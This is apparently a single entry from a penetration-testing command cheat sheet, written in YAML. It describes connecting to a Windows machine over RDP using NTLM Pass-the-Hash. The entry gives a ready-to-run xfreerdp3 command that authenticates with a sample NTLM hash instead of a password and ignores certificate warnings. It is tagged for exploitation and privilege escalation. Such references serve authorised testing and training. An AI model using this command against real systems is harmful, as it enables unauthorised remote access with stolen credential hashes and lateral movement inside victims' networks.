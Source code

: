 ```yaml
---
description: Connect to a remote Windows desktop via RDP using NTLM Pass-the-Hash authentication, bypassing certificate warnings.

Command Reference:
    Target IP: 10.10.10.1
    Domain: N/A
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  xfreerdp3 /v:10.10.10.1 /u:john /pth:580B16D486D8D2CAFA00B314D41FA396 /cert:ignore

items:
  - Hash

services:
  - NTLM

OS:
  - Windows

attack_types:
  - Exploitation
  - PrivEsc

references:
  - https://github.com/FreeRDP/FreeRDP
  - https://www.kali.org/tools/freerdp3/#xfreerdp3
---
```


